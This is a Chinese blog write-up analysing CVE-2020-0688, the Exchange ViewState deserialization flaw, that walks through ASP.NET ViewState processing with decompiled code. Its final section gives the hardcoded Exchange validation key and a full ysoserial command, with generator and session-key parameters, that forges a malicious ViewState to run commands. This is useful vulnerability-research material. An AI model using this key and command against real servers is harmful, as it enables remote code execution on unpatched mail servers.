# Exchange CVE-2020-0688 代码执行漏洞分析 - nice_0e3 - 博客园

> 原文：[`www.cnblogs.com/nice0e3/p/15758903.html`](https://www.cnblogs.com/nice0e3/p/15758903.html)

# Exchange CVE-2020-0688 代码执行漏洞分析

## 前言

学习 exchange 漏洞记录

## ViewState 反序列化利用

### ViewState 概述

ViewState 机制是 asp.net 中对同一个 Page 的多次请求（PostBack）之间维持 Page 及控件状态的一种机制。在 WebForm 中每次请求完，Page 对象都会被释放，对同一个 Page 的多次请求之间的状态信息，如何进行维护呢？WebForm 中，每次请求都会存在客户端和服务器之间的一个交互。如果请求完成之后将一些信息传回到客户端，下次请求的时候客户端再将这些状态信息提交给服务器，服务器端对这些信息使用和处理，再将这些信息传回给客户端。这样是不是就可以对同一个 Page 的多次请求（PostBack）之间维持状态了。对这就是 ViewState 的基本工作模式。ViewState 的设计目的主要就是为了将必要的信息持久化在页面中。这样通过 ViewState 在页面回传的过程中保存状态值，使原本没有“记忆”的 Http 协议变得有“记忆”起来。

### ViewState 解析流程

ViewState 只是 NET 中的一个机制，在 ASP.NET 在生成和解析 ViewState 时使用 ObjectStateFormatter 进行序列化和反序列化，虽然在序列化后又进行了加密和签名，但是一旦泄露了加密和签名所使用的算法和密钥，我们就可以将 ObjectStateFormatter 的反序列化 payload 伪装成正常的 ViewState，并触发 ObjectStateFormatter 的反序列化漏洞。

查看客户端 html 源代码

```
<input type="hidden" name="__VIEWSTATE" id="__VIEWSTATE" value="/wEPDwUKLTIxMDE4NjY2OWRktaI958qvyTatsn1o2A0eJUnsN04=" /> 
```

这是 ViewState 在客户端中保存的形式，它保存在一个 ID 为 __VIEWSTATE 的 Hidden 中，它的 Value 是使用 Base64 编码后的字符串。这个字符串实际上是一个对象（Pair 类型）序列化之后的结果。这个对象保存了整个页面的控件树的 ViewState。可以拿解码工具解密看看这串加密的内容。



解析成了一个 Pair 对象

也就是这串数据则是 base64 编码后的序列化数据。

在服务器端和 ViewState 机制密切相关的有三个类 Page，Control，StateBag。



Page 继承自 Control，Control 和 StateBag 是聚合关系，在 Control 中有一个 StateBag 的实例 ViewState。这三个类互相协作完成 ViewState 机制的大概过程如下。Page 对客户端请求进行处理，在处理的过程中先是将客户端提交的`_VIEWSTATE`反序列化为对象，调用 Control 的相关方法给所有的控件装载数据，这些数据是上次请求结束后控件的状态数据。在之后的一些事件中这些状态数据可能被修改。在请求结束之前调用 Control 的相关方法得到所有控件的被修改过的状态数据，之后 Page 将其进行序列化，并返回给客户端。在 Control 中又具体调用 StateBag 类的方法完成状态数据的加载和保存。

Page 生命周期,如图



整一个 page 会先走到 Page.ProcessRequestMain()方法

```
private void ProcessRequestMain(bool includeStagesBeforeAsyncPoint, bool includeStagesAfterAsyncPoint)
		{
			try
			{
				HttpContext context = this.Context;
				string text = null;
				if (includeStagesBeforeAsyncPoint)
				{
					if (this.IsInAspCompatMode)
					{
						AspCompatApplicationStep.OnPageStartSessionObjects();
					}
					if (this.PageAdapter != null)
					{
						this._requestValueCollection = this.PageAdapter.DeterminePostBackMode();
					}
					else
					{
						this._requestValueCollection = this.DeterminePostBackMode();
					}
					string text2 = string.Empty;
					if (this.DetermineIsExportingWebPart())
					{
                  ......//省略代码
					this.InitRecursive(null);
					if (EtwTrace.IsTraceEnabled(5, 4))
					{
						EtwTrace.Trace(EtwTraceType.ETW_TYPE_PAGE_INIT_LEAVE, this._context.WorkerRequest);
					}
					if (context.TraceIsEnabled)
					{
						this.Trace.Write("aspx.page", "End Init");
					}
					if (context.TraceIsEnabled)
					{
						this.Trace.Write("aspx.page", "Begin InitComplete");
					}
					this.OnInitComplete(EventArgs.Empty);
					if (context.TraceIsEnabled)
					{
						this.Trace.Write("aspx.page", "End InitComplete");
					}
					if (this.IsPostBack)
					{
						if (context.TraceIsEnabled)
						{
							this.Trace.Write("aspx.page", "Begin LoadState");
						}
						if (EtwTrace.IsTraceEnabled(5, 4))
						{
							EtwTrace.Trace(EtwTraceType.ETW_TYPE_PAGE_LOAD_VIEWSTATE_ENTER, this._context.WorkerRequest);
						}
						this.LoadAllState();
						if (EtwTrace.IsTraceEnabled(5, 4))
						{
							EtwTrace.Trace(EtwTraceType.ETW_TYPE_PAGE_LOAD_VIEWSTATE_LEAVE, this._context.WorkerRequest);
						}
						......//省略代码
						this.SaveAllState();

                        ......//省略代码 
```

#### InitRecursive



初始化阶段调用 Control. InitRecursive，它递归对所有的控件进行初始化。随后调用`InitRecursive`方法

`System.Web.UI.Control#InitRecursive` ->`System.Web.UI.Control#InitRecursive`

跟踪代码



判断传参过来的`_viewState`是否为空，不为空调用，`this._viewState.TrackViewState();`

TrackViewState 方法代码

```
internal void TrackViewState()
		{
			this.marked = true;
		} 
```

设置值为 true。

TrackViewState 方法的代码作用就是中打开跟踪 ViewState 开关。

#### LoadAllState

Page 中继续调用 LoadAllState，跟踪查看

LoadAllState 只有在 PostBack 的时候才会执行，即为一个标记，记录是否为第一次加载。



它的主要功能是将从页面传递来的`__VIEWSTATE`的值反序列化为 Pair 类型的对象，然后将这个对象中存储的 ViewState 的值加载到 Page 及所有控件中。实际上 LoadAllState 加载了 ControlState（控件状态）及 ViewState（视图状态）。

即该部分实现反序列化操作。

#### SaveAllState

SaveAllState 它的操作和 LoadAllState 相反。

将 Control.SaveViewStateRecursive 生成的对象序列化为一个字符串，并赋值给 Page.ClientState 属性

最终将 ClientState 属性中的值写入到 HTML 页面的 _VIEWSTATE 中。

该部分实现序列化并且将序列化的内容写到 HTML 页面中。

### 反序列化流程分析

跟踪代码`LoadAllState`

```
private void LoadAllState()
		{
			object obj = this.LoadPageStateFromPersistenceMedium();
			IDictionary dictionary = null;
			Pair pair = null;
			Pair pair2 = obj as Pair;
			if (obj != null)
			{
				dictionary = (pair2.First as IDictionary);
				pair = (pair2.Second as Pair);
			}
			... 
```

```
protected internal virtual object LoadPageStateFromPersistenceMedium()
		{
			PageStatePersister pageStatePersister = this.PageStatePersister;
			try
			{
				pageStatePersister.Load();
			}
			catch (HttpException ex)
			{
				...
				} 
```

HiddenFieldPageStatePersister.Load

```
public override void Load()
		{
			if (base.Page.RequestValueCollection == null)
			{
				return;
			}
			string text = null;
			try
			{
				text = base.Page.RequestViewStateString;
				if (!string.IsNullOrEmpty(text) || !string.IsNullOrEmpty(base.Page.ViewStateUserKey))
				{
					Pair pair = (Pair)Util.DeserializeWithAssert(base.StateFormatter2, text, Purpose.WebForms_HiddenFieldPageStatePersister_ClientState);
					base.ViewState = pair.First;
					base.ControlState = pair.Second;
				}
			}
			catch (Exception ex)
			{
				if (ex.InnerException is ViewStateException)
				{
					throw;
				}
				ViewStateException.ThrowViewStateError(ex, text);
			}
		} 
```


`Util.DeserializeWithAssert`






至此流程走到`ObjectStateFormatter.Deserialize()`反序列化方法中。

将字符串进行 Base64 解码为字节流，如果需要解密则进行解密处理，否则需要进行需要 Mac 则进行 Mac 处理，将字节流转换为内存流，进行反序列化返回 Pair 对象

```
private object Deserialize(string inputString, Purpose purpose)
		 ...
			byte[] array = Convert.FromBase64String(inputString);
			int num = array.Length;
			try
			{
				if (AspNetCryptoServiceProvider.Instance.IsDefaultProvider && !this._forceLegacyCryptography)
				{
					if (this._page != null && (this._page.ContainsEncryptedViewState || this._page.EnableViewStateMac))
					{
						Purpose purpose2 = purpose.AppendSpecificPurposes(this.GetSpecificPurposes());
						ICryptoService cryptoService = AspNetCryptoServiceProvider.Instance.GetCryptoService(purpose2, CryptoServiceOptions.None);
						byte[] array2 = cryptoService.Unprotect(array);
						array = array2;
						num = array2.Length;
					}
				}
				else if (this._page != null && this._page.ContainsEncryptedViewState)
				{
					array = MachineKeySection.EncryptOrDecryptData(false, array, this.GetMacKeyModifier(), 0, num);
					num = array.Length;
				}
				else if ((this._page != null && this._page.EnableViewStateMac) || this._macKeyBytes != null)
				{
					array = MachineKeySection.GetDecodedData(array, this.GetMacKeyModifier(), 0, num, ref num);
				}
			} 
```



在 Asp.net2.0 中实现 PageStatePersister 这个抽象类，具体提供持久化机制的类是`HiddenFieldPageStatePersister`。它实现了 Load 和 Save 两个方法，Load 时将`__VIEWSTATE`反序列化为一个 Pair 对象，Save 时将 Pair 对象序列化为一个字符串赋值给`Page.ClientState`。`HiddenFieldPageStatePersister`中采用的格式器是`ObjectStateFormatter`，其实`string Serialize(object state)`，和`object Deserialize(string serializedState)`这两个方法，从而实现对 Pair 对象的序列化和反序列化。

以上整一个流程下来就是`ProcessRequestMain` 中判断是否为 PostBack 状态，如果是就获取`__VIEWSTATE` ，调用 LoadAllState 方法进行反序列化操作。

### web.config 配置 ViewState

ViewState 使用 ObjectStateFormatter 进行反序列化操作，ViewState 采取了加密和签名的安全措施。但是如果加密密钥泄露，依然可以伪装加密的数据进行攻击。

**enableViewState**： 用于设置是否开启 viewState

**enableViewStateMac**： 用于设置是否开启 ViewState Mac (校验)功能。4.5.2 之前，该选项为 false，可以禁止 Mac 校验功能。但是在 4.5.2 之后，强制开启 ViewState Mac 校验功能.

**viewStateEncryptionMode**： 用于设置是否开启 ViewState Encrypt (加密)功能。该选项的值有三种选择：Always、Auto、Never。

*   Always 表示 ViewState 始终加密；
*   Auto 表示 如果控件通过调用 RegisterRequiresViewStateEncryption() 方法请求加密，则视图状态信息将被加密，这是默认值；
*   Never 表示 即使控件请求了视图状态信息，也永远不会对其进行加密。

```
<machineKey validationKey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" decryptionKey="E9D2490BD0075B51D1BA5288514514AF" validation="SHA1" decryption="3DES" /> 
```

**validationKey** 和 **decryptionKey** 分别是校验和加密所用的密钥，**validation**和**decryption**则是校验和加密所使用的算法（可以省略，采用默认算法）。校验算法包括： SHA1、 MD5、 3DES、 AE、 HMACSHA256、 HMACSHA384、 HMACSHA512。加密算法包括：DES、3DES、AES。 由于 web.config 保存在服务端上，在不泄露 machineKey 的情况下，保证了 ViewState 的安全性。

## Exchange 漏洞分析

在 exchange ecp 路由接口中使用了`VIEWSTATE`

```
<input type="hidden" name="__VIEWSTATE" id="__VIEWSTATE" value="/wEPDwUKLTIxMDE4NjY2OWRktaI958qvyTatsn1o2A0eJUnsN04=" /> 
```

而 web.config 中加密的密钥为硬编码



即可使用密钥伪造加密数据进行攻击。

使用 yso 生成数据

```
ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "calc" --validationalg="SHA1" --validationkey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" --generator="B97B4E27" --viewstateuserkey="aa29629a-fdaf-4268-a3c0-3c9f7bc97703" --isdebug –-islegacy 
```

```
--validationkey = CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF（默认，漏洞产生原因）

--validationalg = SHA1（默认，漏洞产生原因）

--generator=B97B4E27（基本默认）

--viewstateuserkey = ASP.NET_SessionId 的值 
```

生成数据后需要 url 编码

```
from urllib.parse import quote

input_str ="payload"

quote(input_str,"utf-8") 
```



### 参考

[net-反序列化之-viewstate-利用](https://blog.knownsec.com/2020/11/net-%e5%8f%8d%e5%ba%8f%e5%88%97%e5%8c%96%e4%b9%8b-viewstate-%e5%88%a9%e7%94%a8/)

[ViewState 机制由浅入深](https://blog.51cto.com/utalents/1394499)

[CVE-2020-0688 的武器化与.net 反序列化漏洞那些事](https://www.zcgonvh.com/post/weaponizing_CVE-2020-0688_and_about_dotnet_deserialize_vulnerability.html)

[cve-2020-0688-Exchange-远程代码执行分析及复现](https://fdlucifer.github.io/2020/10/12/cve-2020-0688/)

## 结尾

此篇幅缺少一些细节如处理流程中的加密步骤等，.net 代码能力较差，后面再回来分析细节。